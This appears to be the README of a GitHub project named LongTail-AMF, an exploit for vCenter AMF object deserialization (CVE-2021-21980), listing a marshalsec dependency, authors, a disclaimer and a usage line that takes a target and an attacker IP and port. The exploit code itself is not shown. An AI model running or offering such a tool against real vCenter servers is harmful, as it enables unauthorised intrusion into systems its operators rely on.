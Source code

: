 # LongTail-AMF
Vcenter AMF object deserialization exploit 

##Requirement
https://github.com/RandomRobbieBF/marshalsec-jar

## Usage  
```bash
python3 longtail.py targetip targetport  attackip attackerport
```

## Authors
• [D0rkerDevil](https://twitter.com/D0rkerDevil)

• [wabafet1](https://twitter.com/wabafet1)

 This is for educational purposes, Authors are not responsible for any damages.

## Reference
https://attackerkb.com/topics/5nZX40suYA/cve-2021-21980
